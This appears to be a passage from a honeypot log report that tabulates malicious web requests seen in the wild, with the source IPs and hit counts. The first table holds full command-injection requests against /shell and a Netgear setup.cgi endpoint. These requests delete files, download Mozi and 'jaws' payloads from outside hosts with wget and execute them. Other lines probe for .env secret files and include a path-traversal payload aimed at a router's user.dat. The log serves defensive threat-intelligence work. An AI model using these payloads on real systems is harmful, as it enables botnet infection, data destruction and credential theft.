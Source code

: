 | 113.200.121.71 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                        |
| 45.230.66.123  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.230.66.123:11401/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                |
| 47.236.247.145 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                        |
| 8.219.208.212  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                        |
| 120.77.56.42   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                        |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                 |
|----:|----------------------:|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  50 |                     3 | GET /dispatch.asp HTTP/1.1                                                                                                                                                                                                                              |
|  71 |                     2 | GET /depot/1238681/chunk/4dd971c1e85e3f6381f75400c449954f9adc44bb HTTP/1.1                                                                                                                                                                              |
|  72 |                     2 | h\x01\x00fM2\x05\x00\xFF\x01\x06\x00\xFF\x09\x05\x07\x00\xFF\x09\x07\x01\x00\x00!5/////./..//////./..//////./../flash/rw/store/user.dat\x02\x00\xFF\x88\x02\x00\x00\x00\x00\x00\x08\x00\x00\x00\x01\x00\xFF\x88\x02\x00\x02\x00\x00\x00\x02\x00\x00\x00 |
|  94 |                     2 | GET /.env-compose HTTP/1.1                                                                                                                                                                                                                              |
|  95 |                     2 | GET /.env-journal HTTP/1.1                                                                                                                                                                                                                              |
| 100 |                     2 | GET /.env.ini.bak HTTP/1.1                                                                                                                                                                                                                              |
| 101 |                     2 | GET /.env-backend HTTP/1.1                                                                                                                                                                                                                              |
| 103 |                     2 | GET /.env-ssl-key HTTP/1.1                                                                                                                                                                                                                              |
| 106 |                     2 | GET /.env-app.yml HTTP/1.1                                                                                                                                                                                                                              |
| 107 |                     2 | GET /.env-key.pem HTTP/1.1                                                                                                                                                                                                                              |
| 108 |                     2 | GET /.env.dev.bak HTTP/1.1                                                                                                                                                                                                                              |
| 109 |                     2 | GET /.env-cypress HTTP/1.1                                                                                                                                                                                                                              |
